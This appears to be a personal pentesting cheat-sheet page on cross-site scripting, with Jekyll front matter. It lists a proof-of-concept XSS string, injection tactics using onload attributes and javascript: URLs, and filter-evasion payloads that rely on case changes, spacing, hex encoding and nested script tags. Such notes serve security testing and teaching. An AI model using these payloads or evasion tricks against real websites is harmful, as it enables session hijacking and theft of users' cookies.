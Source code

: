 ```yaml
---
layout: page
title:  "Cross Site Scripting (XSS)"
permalink: "xss.html"
tags: [security, web]
summary: ""
---
```

## Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


## Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

## Tactics
* Chack the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

## Filters evading
### script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`


## Resources and references
* [Example of finding an XSS bug](https://medium.com/@marin_m/how-i-found-a-5-000-google-maps-xss-by-fiddling-with-protobuf-963ee0d9caff)
